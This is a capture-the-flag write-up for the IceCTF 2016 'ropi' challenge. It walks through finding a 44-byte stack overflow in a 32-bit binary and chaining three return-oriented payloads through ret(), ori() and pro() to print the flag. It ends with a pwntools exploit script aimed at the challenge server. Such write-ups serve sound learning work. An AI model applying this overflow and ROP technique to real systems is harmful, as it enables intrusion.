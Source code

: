 #Nullo0inter's ropi write up for IceCTF 2016

##Ropi Pwn 75pts
Ritorno orientata programmazione 
nc.ropi.vuln.icec.tf 6500

## Write Up
In this challange we are again given a download link for what we find out is a 32-bit ELF executeable binary. The challenge name and hint tell us we will probably be doing rop but beyond that or the specifics we don't really know yet. When we fire up the binary we get the following:

```
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?

```

Uh oh, Italian. I don't speak that so I threw it into Google Translate and got the following translation:

```
Welcome to Pro Rectors conference!
Wants to leave a message?
```

So ok, its supposed to let me leave like a message. We get the gist. So now I tried entering just a bit of input to see normal execution:

```
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
Never gonna give you up
addio!
```

It just comes back and prints addio!. Ok, now what? Well lets see if we can crash it:
```zsh
python -c "print 'D'*100" | ./ropi 
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[1]    72553 done                              python -c "print 'D'*100" | 
       72554 segmentation fault (core dumped)  ./ropi
```

YISSS, a core dump, lets examine that in gdb:

```
Stopped reason: SIGSEGV
0x44444444 in ?? ()
```
Awesome! It looks like we overwrote EIP, now we can generate a string with `ragg2` to take the guesswork (or real reversing) out of figuring out the buffer size:
```zsh
ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAA
```
Using the string ragg2 generated:
```
Stopped reason: SIGSEGV
0x41415041 in ?? ()
```
Translating that to an ASCII string we get 'AAPA'. There are two ways to do this now which are either copying the string right up to the first A and using something like len() in Python, but I'm going to use a builtin tool for radare2, `wopO <hex pattern>` which will basically search for how far off that pattern is in the string we generated:
```
 -- This is amazing ...
 [0x08048430]> wopO 0x41415041
 43
```

43 bytes of padding, alright, we can work with that. Now would be a good time to see where we actually get input and how much we get. We can do this by objdump or by IDA. I'm still learning to reverse so for now I'll just use IDA. 

Disassembling with IDA we get the following functions:

#####main:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
      ezy();
        puts("addio!");
          return 0;
}
```

#####ezy:
```C
ssize_t ezy()
{
      char buf; // [sp+10h] [bp-28h]@1

        puts("Benvenuti al convegno RetOri Pro!\nVuole lasciare un messaggio?");
          fflush(stdout);
            return read(0, &buf, 0x40u);
}
```

#####ret:
```C
int __cdecl ret(int a1)
{
      if ( a1 != -1159991569 )
            {
                    puts("chiave sbagliata! :(");
                        exit(1);
                          }
        fd = open("./flag.txt", 0);
          puts("[+] aperto");
            return fflush(stdout);
}
```

#####ori:
```C
int __cdecl ori(int a1, int a2)
{
      if ( a1 != -1412567041 && a2 != 2018915346 )
            {
                    puts("chiave sbagliata! :((");
                        exit(1);
                          }
        read(fd, &dati, 0x80u);
          puts("[+] leggi");
            return fflush(stdout);
}
```

#####pro:
```C
int pro()
{
      puts("[+] stampare");
        printf("%s", &dati);
          return fflush(stdout);
}
```
Using the disassembled functions we can see a few things. Firstly, we gain our input through a call to read and are given a max of 64 bytes (from nbytes being 0x40, which in decimal is 64). We know that for whatever reason, 43 or so bytes in we start to overwrite the EIP. This means we have *roughly* 20 bytes left to play with. Secondly we can see there are three functions other than `main()` and `ezy()` and each appears to have some part of loading and displaying the flag and have to be done in order.

We now know that we have 44 bytes to EIP, 20 bytes to play with including EIP overwrite, 3 functions that must be called in the order `ret()`->`ori()`->`pro()` (return oriented programming), and that these functions all (save `pro()`) appear to have some sort of check at the beginning. Converting those ugly looking numbers to hex we get that `ret()` wants an argument to be `0xbadbeeef` (thats beef with three 'e's) and `ori()` wants two which are 0xabcdefff and 0x78563412. If we fail to provide those then the program prints a failure message and exits.

What now? Well reviewing how ret2libc attacks work, we know that if we can hijack EIP as we have done then we can make it return to wherever we want in the program and do even more so long as we set the stack frame right. So first instinct is to try to make it do `main()`->`ezy()`->`ret()`->`ori()`->`pro()` but we quickly find that there is a problem. Distance to EIP is 44 bytes which leaves us with 20 bytes to craft the exploit. The addresses alone for ret, ori, and pro will take up 12 which leaves us with 8 bytes left. We then need to account for the 4 byte 'canary' in ret, and the two 4 byte 'canaries' in ori. Adding that all up we end up 4 bytes over what we have. That's a problem. So now what? Get clever with the rop gadgets?

Well if you recall I said we could use the EIP access to return ANYWHERE, and as it turns out our vulnerability is in its own function too: `ezy()`! So what do we do about it? Well we know during the same execution we must visit `ret()`,`ori()`, and `pro()` all in order and we also now know we can jump back to `ezy()` which means.... ARBITRARY JUMPING! 

If we first go to `ret()` and have it return to `ezy()` rather than `ori()` it means that we can rewrite our exploit and do it again, effectively "chaining" it, so that we can then jump to `ori()` and back to `ezy()` one final time to make a final jump to `pro()`

We have three seperate payloads we then need to construct:

```
payload one:    'A'*44<address of ret><address of ezy><0xbadbeeef>
payload two:    'A'*44<address of ori><address of ezy><0xabcdefff><0x78563412>
payload three:  'A'*44<address of pro><address of main, or just junk>
```

Luckily for us, pwntools makes sending these multiple encoded payloads really easy, setting it up just like that we get the following exploit script in python:

```Python
#!/usr/bin/python

# @nullp0inter
# IceCTF ROPI

from pwn import *

# Addresses
main        = 0x08048661
ezy_addr    = 0x0804852d
ret_addr    = 0x08048569
ret_can     = 0xbadbeeef
ori_addr    = 0x080485c4
ori_can1    = 0xabcdefff
ori_can2    = 0x78563412
pro_addr    = 0x0804862c

# Payload Generation
payload      = 'A'*44
payload     += p32(ret_addr)
    payload     += p32(ezy_addr)
    payload     += p32(ret_can)
    payload2     = 'A'*44
    payload2    += p32(ori_addr)
    payload2    += p32(ezy_addr)
    payload2    += p32(ori_can1)
    payload2    += p32(ori_can2)
    payload3     = 'A'*44
    payload3    += p32(pro_addr)
    payload3    += p32(main)

# Start Pwnage
    p = remote('ropi.vuln.icec.tf',6500) # Remote
#p = process('ropi') # local

    p.recv()
    p.sendline(payload)
    p.recv()
    p.sendline(payload2)
    p.recv()
    p.sendline(payload3)
    p.interactive()
```


##Special Thanks:
Special thanks to members both past and present of my club, wcsc, for all the information they shared with me. I was able to finally solve some fairly difficult challenges thanks to them answering my repeated stupid questions (ropi at 131 solves, dear_diary at 78)

##Resources:
I found a ton of great resources during the challenge for learning about ROP attacks:

[Saumil Shah's 'Dive Into ROP'](http://www.slideshare.net/saumilshah/dive-into-rop-a-quick-introduction-to-return-oriented-programming "Dive Into ROP")

[Saumil Shah's 'How Functions Work'](http://www.slideshare.net/saumilshah/how-functions-work-7776073 "How Functions Work")

[Jeffrey Crowell's Blog Post on "Pwning With Radare2"](http://crowell.github.io/blog/2014/11/23/pwning-with-radare2/ "Pwning With R2")
